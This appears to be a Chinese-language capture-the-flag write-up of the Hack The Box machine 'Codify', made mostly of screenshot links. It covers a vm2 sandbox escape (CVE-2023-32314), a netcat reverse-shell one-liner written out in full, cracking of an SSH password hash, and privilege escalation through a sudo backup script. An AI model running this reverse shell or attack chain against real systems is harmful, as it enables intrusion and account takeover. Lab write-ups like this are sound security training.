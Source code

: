先把codify.htb加入/etc/hosts
![image](https://hackmd.io/_uploads/H10yHw_4a.png)

用nmap掃了後有開啟22,80跟3000 port
![image](https://hackmd.io/_uploads/rkLiBDOET.png)

透過主頁的介紹大致知道他是可以線上測試node.js的網站
![image](https://hackmd.io/_uploads/SJh1PwO46.png)

關於這邊有寫到她是用vm2的library 
![image](https://hackmd.io/_uploads/Byo--__4a.png)

點開後他是使用3.9.16版本 去找有沒有相關漏洞
![image](https://hackmd.io/_uploads/rk_HW_dNp.png)

找到一個可以ByPass sandbox的漏洞 [CVE-2023-32314](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)
![image](https://hackmd.io/_uploads/ByfsOtOVT.png)

貼上她的payload後嘗試whoami 指令有成功讀取到 所以可以來嘗試看看reverse shell
![image](https://hackmd.io/_uploads/rk-qtYdV6.png)

在本地開啟一個8888 port監聽
![image](https://hackmd.io/_uploads/Hyw1sYuNp.png)

在payload裡用上`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.23 8888 >/tmp/f` 後成功get shell(不能用bin/bash 不確定是不是因為沒開/dev/tcp的關係) 
![image](https://hackmd.io/_uploads/S1ydiFuVT.png)

裏頭有一個joshua 可是沒有權限進入 所以感覺是要去找他的ssh密碼
![image](https://hackmd.io/_uploads/HkkBP5u46.png)


可是裡面資料夾有點多 翻不太到想要的東西 想說用linpeas看看
![image](https://hackmd.io/_uploads/BJLGPquE6.png)

但不知道為什麼不能解析 github .com
![image](https://hackmd.io/_uploads/HJmKvqON6.png)

最後是在var/www/contact這個路徑下找到一個tickets.db
![image](https://hackmd.io/_uploads/S1Xz9cuVp.png)

其中這段看起來就很像是joshua的ssh密碼
![image](https://hackmd.io/_uploads/ByqB9qdVp.png)

拿去用john爆破成功爆出一段密碼 spongebob1
![image](https://hackmd.io/_uploads/SJMJ65_4p.png)

成功透過ssh登入了joshua身分
![image](https://hackmd.io/_uploads/BkQIpq_VT.png)

拿到user flag
![image](https://hackmd.io/_uploads/B1T_a5OEp.png)

用sudo -l 後發現有一個root權限下也可以運作的檔案 /opt/scripts/mysql-backup.sh
![image](https://hackmd.io/_uploads/SkT8biuEa.png)

裏頭的程式碼
![image](https://hackmd.io/_uploads/ryYNj3uEa.png)

寫一個python 腳本來跑出密碼
![image](https://hackmd.io/_uploads/HkI2c3_46.png)

成功爆出密碼
![image](https://hackmd.io/_uploads/ryfqns_4a.png)

拿來登入root 並成功得到flag
![image](https://hackmd.io/_uploads/HJJUhhONa.png)
